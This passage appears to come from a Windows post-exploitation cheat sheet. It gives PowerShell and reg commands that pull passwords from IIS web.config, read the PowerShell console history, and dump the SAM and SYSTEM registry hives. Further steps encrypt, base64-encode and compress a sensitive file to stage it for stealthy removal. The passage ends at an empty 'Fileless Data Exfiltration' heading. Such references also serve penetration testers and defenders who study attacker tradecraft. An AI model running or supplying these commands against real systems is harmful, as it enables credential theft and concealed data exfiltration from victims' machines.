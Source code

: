 #### Gathering Credentials

Extract Passwords from Web Server Configuration:

```
Select-String -Path C:\inetpub\wwwroot\web.config -Pattern "password" -CaseSensitive
```

Read Command History (PowerShell History):

```
Get-Content -Path $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Dump Local SAM Database (Requires SYSTEM Privileges):

```
reg save HKLM\SAM C:\Temp\SAM_dump.hiv
reg save HKLM\SYSTEM C:\Temp\SYSTEM_dump.hiv
```

# File Obfuscation and Stealth Techniques

#### File Encryption

Encrypt a File Using ```AES``` with a Passphrase:

```
$Key = (New-Object Security.Cryptography.Rfc2898DeriveBytes("password", [Byte[]]::new(16), 1000)).GetBytes(32)
$IV = [Byte[]]::new(16)
$AES = New-Object Security.Cryptography.AesManaged
$AES.Key, $AES.IV = $Key, $IV
[System.IO.File]::WriteAllBytes("C:\Temp\encrypted_file", $AES.CreateEncryptor().TransformFinalBlock([System.IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt"), 0, [System.IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt").Length))
```

#### Data Encoding (Base64)

Encode a File in Base64:

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt")) | Set-Content -Path "C:\Temp\encoded_file.txt"
```

Compress and Encode Data:

```
Compress-Archive -Path C:\Temp\sensitivefile_copy.txt -DestinationPath C:\Temp\sensitive_data.zip
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\sensitive_data.zip")) | Set-Content -Path "C:\Temp\encoded_compressed.txt"
```

#### Fileless Data Exfiltration

Exfiltrate Data Without Creating Local Files:
